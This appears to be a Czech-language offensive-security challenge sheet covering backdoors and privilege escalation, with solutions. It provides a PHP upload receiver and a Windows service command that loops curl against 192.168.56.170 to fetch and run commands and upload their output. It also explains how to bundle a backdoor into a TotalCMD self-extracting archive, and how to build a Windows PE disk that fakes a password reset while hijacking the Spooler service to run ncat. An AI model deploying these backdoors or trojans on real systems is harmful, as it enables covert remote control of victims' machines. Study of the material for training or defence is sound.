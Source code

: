 	save.php
	<?php
	  if (filesize($_FILES["file"]["tmp_name"]) > 150) {
        	  move_uploaded_file($_FILES["file"]["tmp_name"], $_FILES["file"]["name"]);
	          file_put_contents("command.txt","");
	  }
	?>

Challenge 12
------------
Úkol:	Nasaďte backdoor z předchozí challenge jako službu
Řešení:
	SC CREATE backdoor2 binpath= "CMD /c CMD /c \"FOR /L %i IN (0,0,1) DO CURL http://192.168.56.170/command.txt ^| CMD ^> %temp%\output.txt ^&^& CURL --form file=@%temp%\output.txt http://192.168.56.170/save.php ^&^& TIMEOUT /t 10\""
	SC START backdoor2


Challenge 13
------------
Úkol:	Vytvořte portable aplikaci (TotalCMD), která kromě své legitimní funkčnosti, bude obsahovat backdoor
Řešení:	Vytvoříme samorozbalovací archiv
	Microsoft nabízí přímo ve Windows nástroj iexpress
	Do archivu vložíme legitimní exe soubor, např. TotalCMD.exe, náš backdoor (backdoor.cmd) a případné další věci
	Při tvorbě archivu nastavíme instalační program (TotalCMD) a post-instalační příkaz (backdoor.cmd)
	Výslednému archivu můžeme změnit ikonu např. nástrojem Resource Hacker
	Výsledný archiv můžeme distribuovat
	Po stažení a spuštění se obsah rozbalí do tempu a spustí se instalační program (TotalCMD)
	Po uzavření TotalCMD se spustí post-instalační příkaz (backdoor.cmd), který odešle CMD útočníkovi

Privilege Escalation
--------------------

Challenge 14
------------
Úkol:	Navyšte si oprávnění z ničeho na System bez toho, že byste měli fyzický přístup k cílovému PC
Řešení: Off-line útok pomocí bootovatelného média, které si stáhne a nabootuje z něj naše oběť

	Vytvoříme vlastní upravené Windows PE
	Microsoft na tvorbu vlastních Windows PE poskytuje nástroj Windows ADK
	Úkolem našich upravených Windows PE bude zresetovat heslo administratora (legitimní část) a nasadit na PC oběti backdoor (skrytá funkcionalita)
	Vytvoříme si dva soubory: startnet.cmd, který se spustí v kontextu Windows PE a attack.bat, který se spustí po restartu pod systémem v kontextu nainstalovaného systému

	STARTNET.CMD
	------------
	Spustí se v kontextu Windows PE
	1) Zkopírujeme soubory ncat.exe, srvany.exe a attack.bat z CD na HDD
	2) Připojíme registry (SYSTEM) z HDD
	3) Změníme konfiguraci služby Spooler, aby se při bootování (po restartu) spustil pod systémem Attack.bat
	4) Odpojíme připojené registry
	5) Smažeme obsah obrazovky
	6) Vypíšeme "Heslo administratora bylo nastaveno na heslo"
	7) Počkáme na stisk klávesy
	8) Zavřeme okno (restart)
